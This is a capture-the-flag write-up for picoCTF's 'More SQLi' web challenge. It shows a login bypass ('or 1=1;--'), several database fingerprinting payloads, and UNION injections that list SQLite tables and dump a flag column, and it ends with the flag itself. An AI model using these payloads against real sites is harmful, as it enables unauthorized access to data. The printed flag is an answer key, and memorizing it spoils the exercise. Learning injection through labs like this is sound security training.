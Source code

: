 # More SQLi 

## Problem  
Can you find the flag on this website.
Try to find the flag here. [http://saturn.picoctf.net:53508/](http://saturn.picoctf.net:53508/)


## Solution

Putting in a random userid/password combo shows that it's doing a basic sql query where userid and password equal the supplied form fields.  To get around this we'll have to put in values in for userid and password that'll break the SQL and return a result.
```
password = 'or 1=1;--
userid = 123 or whatever you want.
```

Next up you are presented with a lookup form for finding city, address, and phone number.  Assuming that we have to figure out how to get all the data out of this table we need to figure out how to do a sql injection attack here as well.  
[https://book.hacktricks.xyz/pentesting-web/sql-injection](https://book.hacktricks.xyz/pentesting-web/sql-injection)  
[https://www.hackingloops.com/sql-injection-cheat-sheet/](https://www.hackingloops.com/sql-injection-cheat-sheet/)  
[https://gist.github.com/Cuncis/eb6a0857b16e818a069da1e2c7e3f366](https://gist.github.com/Cuncis/eb6a0857b16e818a069da1e2c7e3f366)  
[https://www.invicti.com/blog/web-security/sql-injection-cheat-sheet/](https://www.invicti.com/blog/web-security/sql-injection-cheat-sheet/)  

Started to google for various sql injection cheat sheets.  Walked through several queries trying to get some sort of responses so as to identify if this was an MySQL, PostgreSQL, SQLServer, SQLlite, etc, etc... 
```
1' + sleep(10); --
1' UNION select @@version;--
1' WAITFOR DELAY '0:0:10'; --
1' AND 123=LIKE('ABCDEFG',UPPER(HEX(RANDOMBLOB(1000000000/2))))
```

That last one didn't return a server error so it looks like it is a SQLlite database.  To confirm, I ran this query and it returned that it was version 3.31.1.
```
' UNION SELECT 1, sqlite_version(), 3;--
```

With that info in mind, I was able to find this query for getting SQLlite to provide the tables and their structure.  In the results the MORE_TABLE table referenced having a column called flag.
```
' UNION SELECT name, sql, null from sqlite_master;--  
```

Queried that table to spit out all the records and their flag column entries.  
```
' UNION SELECT flag, null, null from more_table;--
```

This only returned one record and the text was:  
```
picoCTF{G3tting_5QL_1nJ3c7I0N_l1k3_y0u_sh0ulD_3b0fca37}	
```

